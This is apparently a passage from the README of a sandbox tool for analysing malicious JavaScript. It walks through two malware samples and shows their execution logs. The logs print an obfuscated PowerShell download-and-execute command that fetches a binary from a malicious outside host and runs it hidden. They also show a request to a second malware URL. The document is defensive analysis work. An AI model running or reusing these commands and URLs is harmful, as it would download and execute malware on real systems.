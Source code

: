 In the above example the payload has been extracted into output/_TEMP__49629482.dll and output/_TEMP__38611354.pdf

## Examples ##

The [malware](malware) folder contains real-world malware samples. Most of them downloaded from https://malwr.com. 

Please see [EXAMPLES](EXAMPLES.md) for complete index of malware samples.

### Example: Analysing Wileen.js ###

Taking malicious script from malwr.com: [Wileen.js](https://malwr.com/analysis/NTVkZDQ4MGZkZWE4NDAyM2EwODEyMDM3MDhjMDI1MTQ/)

Apparently the malware does not execute if run from within a browser:

	if (typeof document == "undefined") {

Therefore you may want to use an alternate config filem which does not load browser/DOM components:

    node jailme.js --down=y -c ./config_wscript_only.json  malware/20161001/a6dfd6b83d46702c0b408bd5f669e08c785cd12fdd515fe469595e2a3d44ddc4.js 

Interesting use of Powershell:
    
    1 Oct 13:05:34 -  => Executing: malware/20161001/a6dfd6b83d46702c0b408bd5f669e08c785cd12fdd515fe469595e2a3d44ddc4.js
    1 Oct 13:05:34 - ActiveXObject(WScRipT.SHEll)
    1 Oct 13:05:34 - Created: WScript.Shell[1]
    1 Oct 13:05:34 - WScript.Shell[1].Run(cmD.EXE /c POWE^R^s^he^lL.eXE     -ExEc^U^Tio^n^p^oLIC^y^   B^Y^pas^S -NOpro^Fi^L^e^    -^W^InD^Ow^sT^yle^  HI^ddeN^  (^Ne^W^-^OBJ^ecT^     S^YST^EM.net.Webc^L^I^E^n^T^).^dOWn^L^Oa^d^fI^lE^(^'http://click.doubledating.ru/js/boxun4.bin','%appdatA%.exE')^;^stA^Rt-^p^rO^c^eS^s  ^'%aPpdata%.eXe', false, undefined)
    1 Oct 13:05:34 - ==> Cleaning up sandbox.
    1 Oct 13:05:34 - ==> Script execution finished, dumping sandbox environment to a file.
    1 Oct 13:05:34 - The sandbox context has been  saved to: sandbox_dump_after.json
    
Log file: [malware/20161001/a6dfd6b83d46702c0b408bd5f669e08c785cd12fdd515fe469595e2a3d44ddc4.out](malware/20161001/a6dfd6b83d46702c0b408bd5f669e08c785cd12fdd515fe469595e2a3d44ddc4.out)

### Example: Analysing ORDER-10455.js ###

Taking malicious JavaScript from malwr.com: [ORDER-10455.js](https://malwr.com/analysis/NDU1ZDA4NmY3ZGUyNDczZjg0ODU2OGZiZTMxNjA5NzE/)

First run without interaction with remote servers:

    node jailme.js malware/20160929/416e32e1b22ecb8f360ff841b87d77ac9450fda24458ce4e70abb35ff4d242a3.js

you get something like:
    
    ... 
    29 Sep 23:17:21 - Calling eval() no.: 5
    29 Sep 23:17:21 - ActiveXObject(MSXML2.XMLHTTP)
    29 Sep 23:17:21 - Created: MSXML2.XMLHTTP[9]
    29 Sep 23:17:21 - MSXML2.XMLHTTP[9].open(GET,http://caopdjow.top/user.php?f=0.dat,false)
    29 Sep 23:17:21 - MSXML2.XMLHTTP[9].send(undefined)
    29 Sep 23:17:21 - MSXML2.XMLHTTP[9] Not sending data, if you want to interact with remote server, set --down=y
    29 Sep 23:17:21 - MSXML2.XMLHTTP[9].responseBody = 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa ... (truncated)'
    29 Sep 23:17:21 - MSXML2.XMLHTTP[9].status = '200'
    29 Sep 23:17:21 - MSXML2.XMLHTTP[9].send(undefined) finished
    29 Sep 23:17:21 - MSXML2.XMLHTTP[9].status.get() => 200
    29 Sep 23:17:21 - MSXML2.XMLHTTP[9].ResponseBody.get() => aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa ... (truncated)
    29 Sep 23:17:21 - ActiveXObject(Scripting.FileSystemObject)
    29 Sep 23:17:21 - Scripting.FileSystemObject[10] created.